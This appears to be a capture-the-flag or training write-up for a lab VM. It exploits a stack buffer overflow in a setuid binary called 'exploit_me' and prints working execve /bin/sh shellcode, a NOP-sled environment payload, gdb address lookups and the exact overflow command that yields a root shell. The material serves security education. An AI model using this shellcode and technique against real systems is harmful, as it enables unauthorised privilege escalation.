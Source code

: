 # Writeup 4 - Buffer Overflow + Shellcode Exploitation

## Writeups Map

![Imgur](https://i.imgur.com/gb4HAhr.png)

## Summary

- [14.3 Buffer overflow the setuid binary](#143-buffer-overflow-the-setuid-binary)

## Exploitation

### 14.3 Buffer overflow the setuid binary

We can exploit the EIP overflow by using a shellcode. We can export the shellcode in an environment variable, get its address and pass it to EIP to execute the shellcode.

We'll be using this shellcode that will call execve using a syscall :

```text
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80
```

[more info here](https://github.com/SERAC-SGM/rainfall-42/tree/main/level02)

We export it with a NOP sled in case it's more reliable:

```text
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80
```

Next, we locate the address of the environment variable using gdb:

```text
(gdb) x/500s environ
0xbffff77c: "\245\370\377\277\265\370\377\277\311\370\377\277\352\370\377\277\375\370\377\277\201\371\377\277\212\371\377\277\253\376\377\277\267\376\377\277\004\377\377\277\027\377\377\277&\377\377\277\064\377\377\277E\377\377\277N\377\377\277]\377\377\277e\377\377\277q\377\377\277\245\377\377\277\305\377\377\277"
0xbffff7cd: ""
0xbffff7ce: ""
0xbffff7cf: ""
0xbffff7d0: " "
0xbffff7d2: ""
[...]
0xbffff8ea: "SSH_TTY=/dev/pts/0"
0xbffff8fd: "P=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v̀"
0xbffff981: "USER=zaz"
[...]

(gdb) x/s 0xbffff8ff
0xbffff8ff: "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v̀"
```

One we have this address, we can send it to the binary with the 140 characters of padding before it (address in little endian):

```text
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xff\xf8\xff\xbf")')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
# whoami
root
```
